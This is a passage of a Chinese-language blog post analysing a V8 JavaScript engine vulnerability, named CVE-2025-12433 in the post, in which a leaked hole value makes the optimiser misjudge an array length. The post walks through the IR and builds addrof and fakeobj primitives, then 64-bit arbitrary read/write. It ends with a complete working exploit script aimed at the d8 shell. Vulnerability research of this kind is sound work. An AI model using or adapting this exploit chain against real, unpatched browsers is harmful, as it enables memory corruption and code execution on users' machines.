

*图：上方是优化器推断出来的值域，下方是真实执行时可能拿到的值域；分歧最终集中在 `idx` 上。*

### 为什么能继续走到 OOB

先看最后实际发生写入的目标对象：

```js
let arr = new Array(8);
arr[0] = 13.37;
arr[idx] = 13.37;
```

这里的 `arr` 初始容量很小，只有 8 个元素；而 `arr[0] = 13.37` 的作用，是把它先稳定到一个适合后面利用的 double elements 形态。正常情况下，如果后面真的去写一个很大的索引，比如 `arr[200] = 13.37`，引擎应该先扩容 backing store，再同步更新 `length`。也就是说，扩容和 `length` 更新本来应该是一套一致的动作。

问题就在这里：优化器推断出来的 `idx` 是一个固定的大值，所以和 `length` 更新相关的那部分逻辑会沿着“大索引写入”这条路继续传播，甚至被进一步常量折叠；但真实执行时，`idx` 又不一定真是那个大值，它还可能回落到 0。这样一来，运行时真正发生的写入路径，和优化阶段预设的 length 更新路径，就不再是同一套东西了。

可以把它理解成下面这两套同时存在的逻辑：

**优化器眼里的逻辑**

- `idx` 恒等于 200
- 所以后续 length 应该变成 201
- 与索引相关的部分可以继续按常量折叠和简化

**真实执行时的逻辑**

- `idx` 实际可能等于 0
- 写入本身并不需要扩容
- 但 length 更新逻辑却已经沿着“常量大索引”的方向被固定下来了

在公开旧版链路里，最后就会出现一个很经典的结果：数组看起来 `length` 已经被放大了，但底层 backing store 其实并没有一起变大。这就是典型的 `length / capacity` 不一致。对 JS 层来说，后面再去访问这个数组，会以为自己能访问一个很大的索引范围；但底层真实可用的那块内存其实远没有那么大，于是就会表现为 OOB。



*图：关键点不在于 `B29` / `B30` 的名字，而在于 merge 之后那条固定下来的 `length` 更新仍然会执行。*

如果把这里的 IR 状态再压缩一下，其实可以理解成下面这几步：

```text
BLOCK B28:
  cmp index, length  (index < capacity?)
  Branch -> [B30 (true), B29 (false)]

BLOCK B29:  // index 超过 capacity，需要扩容
  Call GrowFastElements
  Goto B31

BLOCK B30:  // index 还没超过 capacity，跳过扩容
  Goto B31

MERGE B31:
  Store *(#arr + 12) = #Constant(101)   // length = 101
  Store element
  Return
```

真实执行流其实是这样的：

- 实际 `index = 0`
- `capacity = 8`
- 条件 `index < capacity` 成立
- 所以会走进 `B30`
- 这条路径上不会执行扩容
- 但控制流合并到 `B31` 之后，仍然执行了 `Store *(arr + 12) = 101`

也就是说，真实运行时数组并没有扩容，但 merge 后那条已经被固定下来的 length 更新仍然执行了，最后就把 `length` 改大了。这也是这里会出现 `length / capacity` 不一致的直接原因。

## 原语构建 {#primitive-build}

到 OOB 这一步，其实才刚刚够到“可以开始利用”的门槛，先用 `corrupted` 这个越界 double array 去打旁边的 `victim_arr` 对象数组，把数组越界先变成对象原语，也就是先做出 `addrof` 和 `fakeobj`。

```js
let [corrupted, victim_arr] = pwn(true,true);

function addrof(obj) {
    victim_arr[0] = obj;
    return common.ftoih(corrupted[14]);
}

function fakeobj(addr) {
    common.set_l(1);
    common.set_h(addr);
    corrupted[14] = common.get_f64();
    return victim_arr[0];
}
```

![`corrupted[14]` 与 `victim_arr[0]` 的重叠关系](images/cve-2025-12433-layout-addrof-fakeobj.svg)

*图：`addrof` 和 `fakeobj` 的核心都是把同一块内存一边当 `double` 看，一边当对象槽位看。*

`addrof()` 这里很好理解，就是先把对象塞进 `victim_arr[0]`，再从 `corrupted[14]` 那个越界位置把这个槽位偷读出来。`fakeobj()` 则反过来，把准备好的地址表示写回 `corrupted[14]`，再从 `victim_arr[0]` 按对象去取。走到这一步，OOB 就已经不是单纯“能读到数组外面的值”了，而是变成了可以控制对象槽位表示的对象利用原语。


## 任意读写构建 {#arb-rw-build}

有了 `addrof` 和 `fakeobj` 之后，后面的事其实就是拼 fake array。只要能把这个 fake array 的头布置对，后面就能把 `fake_arr[0]` 变成一个可控的读写窗口。


```js
let arr1 = [
    common.pair_i32_to_f64(0x0004ceed, 0x000007bd),
    common.pair_i32_to_f64(0, 0x00008000)
];
let arr1_addr = addrof(arr1);
let arr1_elements = (arr1_addr + 0x1c) >>> 0;
arr1[1] = common.pair_i32_to_f64(arr1_elements, 0x00008000);
let fake_arr = fakeobj((arr1_addr + 0x24) >>> 0);
```

这里的关键就是，`arr1` 不再是普通数组了，而是用于存放 fake array 布局的一块内存。先用 `addrof(arr1)` 拿到它的地址，再把 `arr1` 内部对应位置补成一个自洽的 fake array 头，最后从 `arr1_addr + 0x24` 这个偏移开始把它解释成 `fake_arr`。


*图：`arr1` 不再只是一段普通数组数据，而是被当成 fake array 头和 fake elements 指针的承载区。*

再往下看任意读写函数：

```js
function ArbRead64(addr){    //int32
       arr1[1]=common.pair_i32_to_f64((addr - 0x8) >>> 0,0x00000725);
       return common.f64toi64(fake_arr[0]);
}

function ArbWrite64(addr,value){   //int32  Bigint
       arr1[1]=common.pair_i32_to_f64((addr - 0x8) >>> 0,0x00000725);
       fake_arr[0]=common.i64tof64(value);
       return true;
}
```

这里其实就是把 `arr1[1]` 当成调参位，用它去改 fake array 头里的关键字段，让 `fake_arr[0]` 最终指到我们想读写的地址。这样 `ArbRead64(addr)` 和 `ArbWrite64(addr, value)` 就很好理解了，本质上都是先改目标地址，再借 `fake_arr[0]` 完成那次读或者写；这时候 `fake_arr` 已经不再像普通数组，更像一扇被我们拿来转发任意地址访问的窗口。



*图：不断重写 `arr1[1]`，本质上就是在重定向 `fake_arr[0]` 最终读写到哪里。*


## 完整利用代码


```js
class Common {
    constructor() {
        this.buf = new ArrayBuffer(8);
        this.dv = new DataView(this.buf);
        this.u8 = new Uint8Array(this.buf);
        this.u32 = new Uint32Array(this.buf);
        this.u64 = new BigUint64Array(this.buf);
        this.f32 = new Float32Array(this.buf);
        this.f64 = new Float64Array(this.buf);

        this.roots = new Array(0x30000);
        this.index = 0;
    }

    pair_i32_to_f64(p1, p2) {
        this.u32[0] = p1 >>> 0;
        this.u32[1] = p2 >>> 0;
        return this.f64[0];
    }

    i64tof64(i) {
        this.u64[0] = BigInt(i);
        return this.f64[0];
    }

    f64toi64(f) {
        this.f64[0] = f;
        return this.u64[0];
    }

    set_i64(i) {
        this.u64[0] = BigInt(i);
    }

    set_l(i) {
        this.u32[0] = i >>> 0;
    }

    set_h(i) {
        this.u32[1] = i >>> 0;
    }

    get_f64() {
        return this.f64[0];
    }

    get_i64() {
        return this.u64[0];
    }

    ftoil(f) {
        this.f64[0] = f;
        return this.u32[0];
    }

    ftoih(f) {
        this.f64[0] = f;
        return this.u32[1];
    }

    add_ref(object) {
        this.roots[this.index++] = object;
    }

    mark_sweep_gc() {
        new ArrayBuffer(0x7fe00000);
    }

    scavenge_gc() {
        for (let i = 0; i < 8; i++) {
            this.add_ref(new ArrayBuffer(0x200000));
        }
        this.add_ref(new ArrayBuffer(8));
    }
}

const common = new Common();

common.mark_sweep_gc();
common.mark_sweep_gc();

function pwn(trigger, cond) {
    var hole;
    {
        target: switch (1) {
            case 1:
                do {
                    if (cond) break target;
                } while ((x = 1) && false);
                break;
            default:
                x = 1;
        }
        hole = x;
        let x;
    }

    let o = {};
    o.s = trigger ? hole : "not the hole";

    var s = 2 - (Math.sign(o.s.length) + 1);
    var i = 2 * ((5 - (s + 4)) >> 1) + 2;
    let idx = i * 200;

    let arr = new Array(8);
    let victim_arr = [{}];
    arr[0] = 13.37;

    arr[idx] = 13.37;
    return [arr, victim_arr];
}

%PrepareFunctionForOptimization(pwn);
pwn(false, true);
%OptimizeFunctionOnNextCall(pwn);

let [corrupted, victim_arr] = pwn(true, true);

function addrof(obj) {
    victim_arr[0] = obj;
    return common.ftoih(corrupted[14]);
}

function fakeobj(addr, keep_len = 1) {
    common.set_l(keep_len >>> 0);   // victim_arr.elements.length
    common.set_h(addr >>> 0);       // victim_arr.elements[0]
    corrupted[14] = common.get_f64();
    return victim_arr[0];
}

// let arr1 = [
//     common.pair_i32_to_f64(0x0004ccf5, 0x00000725),
//     common.pair_i32_to_f64(0x00000725, 0x00008000)
// ];

// let arr1_addr = addrof(arr1);
// let fake_arr = fakeobj((arr1_addr + 0x24) >>> 0);

let arr1 = [
    common.pair_i32_to_f64(0x0004ceed, 0x000007bd),
    common.pair_i32_to_f64(0, 0x00008000)
];

let arr1_addr = addrof(arr1);
let arr1_elements = (arr1_addr + 0x1c) >>> 0;

// 初始化成自洽 fake array 头
arr1[1] = common.pair_i32_to_f64(arr1_elements, 0x00008000);

let fake_arr = fakeobj((arr1_addr + 0x24) >>> 0);

%DebugPrint(arr1);
%DebugPrint(fake_arr);
console.log("arr1_addr =", arr1_addr.toString(16));
console.log("fake_target =", ((arr1_addr + 0x24) >>> 0).toString(16));
console.log(
  "corrupted[14] low/high =",
  common.ftoil(corrupted[14]).toString(16),
  common.ftoih(corrupted[14]).toString(16)
);

function ArbRead64(addr) {
    if (fake_arr === null) throw new Error("fake_arr is null");
    arr1[1] = common.pair_i32_to_f64(((addr - 0x8 ) >>> 0), 0x00000725);
    return common.f64toi64(fake_arr[0]);
}

function ArbWrite64(addr, value) {
    arr1[1] = common.pair_i32_to_f64(((addr - 0x8 ) >>> 0), 0x00000725);
    fake_arr[0] = common.i64tof64(value);
    return true;
}

let ex1 = addrof(arr1);
console.log(ArbRead64(ex1).toString(16));
```


## 小结

整条链可以压成一句话：`break` 路径上的 hole-check 状态没有被正确并进 merge，导致 `the_hole` 被直接带到后续 use 点；如果实验版本仍然沿用旧版 `Hole` 布局，那么在利用链里，这个 hole 还可以继续被放大成范围分析失真、OOB，以及后面的 `addrof` / `fakeobj` / 任意地址读写原语。

## 参考资料

1. [Chrome Releases: Stable Channel Update for Desktop, October 28, 2025](https://chromereleases.googleblog.com/2025/10/stable-channel-update-for-desktop_28.html)
2. [V8 patch: `[interpreter] Merge hole elision info on break`](https://chromium.googlesource.com/v8/v8.git/+/b371b4f8ba073fb5c054273e8909bee5de574b35)
3. [aklnjakln: CVE-2025-6554 分析](https://aklnjakln.github.io/2025/11/16/CVE-2025-6554%E5%88%86%E6%9E%90/)
4. [mistymntncop: CVE-2025-6554 exploit.js](https://github.com/mistymntncop/CVE-2025-6554/blob/main/exploit.js)
